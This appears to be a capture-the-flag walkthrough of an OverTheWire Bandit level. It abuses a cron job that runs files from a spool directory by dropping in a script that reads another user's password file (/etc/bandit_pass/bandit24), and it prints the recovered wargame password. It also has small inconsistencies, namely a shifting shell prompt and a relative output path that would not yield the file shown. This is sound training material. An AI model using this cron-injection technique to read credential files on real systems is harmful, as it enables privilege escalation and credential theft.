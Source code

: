 
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

```
bandit22@melinda:~$ cd /etc/cron.d/
bandit23@melinda:/etc/cron.d$ ls -a
.                  cronjob_bandit24       natas25_cleanup   semtex0-ppc
..                 cronjob_bandit24_root  natas25_cleanup~  semtex5
.placeholder       leviathan5_cleanup     natas26_cleanup   sysstat
behemoth4_cleanup  manpage3_resetpw_job   natas27_cleanup   vortex0
cron-apt           melinda-stats          php5              vortex20
cronjob_bandit22   natas-session-toucher  semtex0-32
cronjob_bandit23   natas-stats            semtex0-64
bandit23@melinda:/etc/cron.d$ cat cronjob_bandit24
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
```

Opening the **cronjob_bandit24.sh** script we get the following Bash Script, seen below:

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 "./$i"
	rm -f "./$i"
    fi
done
```

We will go ahead and create a temporary directory.

```
bandit23@melinda:/etc/cron.d$ mkdir /tmp/jhalon
bandit23@melinda:/etc/cron.d$ cd /tmp/jhalon
bandit23@melinda:/tmp/jhalon$ nano
```

Once you open **Nano** we will go ahead and write our own script to inject.

```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > tmp/jhalon/pass
```

Save this new script as `script.sh`. And go back into our console…

```
bandit23@melinda:/tmp/jhalon$ chmod 777 script.sh
bandit23@melinda:/tmp/jhalon$ cp script.sh /var/spool/bandit24
bandit23@melinda:/tmp/jhalon$ dir -a
.  ..  pass  script.sh
bandit23@melinda:/tmp/jhalon$ cat /tmp/jhalon/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
